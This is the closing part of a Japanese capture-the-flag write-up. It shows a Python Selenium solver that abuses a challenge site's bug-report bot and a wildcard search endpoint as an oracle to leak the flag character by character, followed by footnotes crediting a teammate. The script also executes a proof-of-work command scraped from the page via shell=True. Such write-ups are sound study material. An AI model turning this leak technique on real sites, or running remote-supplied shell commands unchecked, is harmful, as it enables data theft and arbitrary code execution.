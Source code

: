 ```py
        report_bug_button.click()

        # Proof of work
        pow_cmd = driver.find_element_by_tag_name('strong').get_attribute('textContent').split('&&')[-1].strip()
        proof = subprocess.check_output(pow_cmd, shell=True).decode()

        # Make the payload
	    payload = urljoin(BASE_URL, f'/search?q={prop}&download=')

        # Submit the payload
        driver.find_element_by_css_selector('input[name=url]').send_keys(payload)
        driver.find_element_by_css_selector('input[name=proof]').send_keys(proof)
        driver.find_element_by_css_selector(
            '#content > div > div > div.box > form > div:nth-child(4) > p > button').submit()

        # Check the result
        flash_message_el = driver.find_element_by_css_selector(
            '#content > div > div > div.box > form > div:nth-child(6)')
        truth = flash_message_el.get_attribute('textContent').strip() == 'ng'

        return prop, truth

    except Exception as e:
        return prop, False

    finally:
        driver.close()


def backup(revealed_flag: str):
    with open('flag.bak', mode='w') as f:
        f.write(revealed_flag)


if __name__ == "__main__":
    with ThreadPoolExecutor(max_workers=8) as executor:
        upper_bound = 50
        props = [length_is(i) for i in range(1, upper_bound + 1)]
        secret_length = [v[0].count('_') for i, v in enumerate(list(executor.map(prop_holds, props))) if v[1]].pop()

    print(f'\r[+] secret_length: {secret_length}\033[0K')

    secret = ''
    for i in range(1, secret_length + 1):
        with ThreadPoolExecutor(max_workers=4) as executor:
            props = [nth_char_is(i, c) for c in S]
            possible_chars = [v for v in executor.map(prop_holds, props) if v[1]]
            if len(possible_chars) == 1:
                secret += possible_chars.pop()[0].lstrip(f'{FLAG_PRE}{"_" * (i - 1)}').rstrip(f'%{FLAG_SUF}')
            else:
                secret += '?'

            print(f'\r[+] ~N={i} => {secret}\033[0K')
            backup(f'{FLAG_PRE}{secret}')

    print(f'[*] flag: {FLAG_PRE}{secret}{FLAG_SUF}')
```


[^1]: こちらは、チームメイトの[@y0d3n](https://twitter.com/y0d3n)氏と解きました。
[^2]: ひとまず簡単なWriteup出しておいて、復習するタイミングで詳細な解説を付けるやり方は、割とありな気がしている。
[^3]: FYI: <https://qiita.com/no1zy_sec/items/dfccd91cf76bf73b7754>
[^4]: GETリクエストがあればflagを入手するには十分だったため、他のメソッドのリクエストが発行できるかは調査しなかった。
[^5]: フォワードされた後、`app.main.LanguageNomarize(request)`を用いて、正規化される場合がある。
[^6]: `%`は0文字以上の文字列を表すワイルドカード
[^7]: 実際には、チームメイトの[@y0d3n](https://twitter.com/y0d3n)氏による手動リークの方が速かったが、プライバシーの観点から、彼の顔写真の代わりにPythonによるSolverスクリプトを掲載した。